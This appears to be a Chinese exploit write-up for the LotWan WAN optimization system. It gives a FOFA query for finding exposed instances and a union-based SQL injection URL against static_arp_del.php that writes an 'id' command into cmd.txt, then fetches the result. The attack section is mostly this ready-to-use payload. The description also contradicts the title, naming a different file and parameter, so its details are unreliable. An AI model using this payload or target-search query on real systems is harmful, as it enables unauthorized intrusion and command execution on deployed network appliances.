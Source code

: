 # 华夏创新 LotWan广域网优化系统 static_arp_del.php SQL注入漏洞

## 漏洞描述

华夏创新 LotWan广域网优化系统check_instance_state.php文件参数 ins存在命令拼接，导致远程命令执行漏洞

## 漏洞影响

```
华夏创新 LotWan广域网优化系统
```

## FOFA

```
title="LotWan 广域网优化系统"
```

## 漏洞复现

登录页面

![image-20220519182931309](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205191829394.png)

存在漏洞的文件为 static_arp_del.php, 通过union注入写入文件

```
/acc/bindipmac/static_arp_del.php?x=1&arpName=1' and 0 union select 1,'||id>cmd.txt||',3,4,5,6,7,8--
```

再访问 `/acc/bindipmac/cmd.txt`

![image-20220519182946695](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205191829769.png)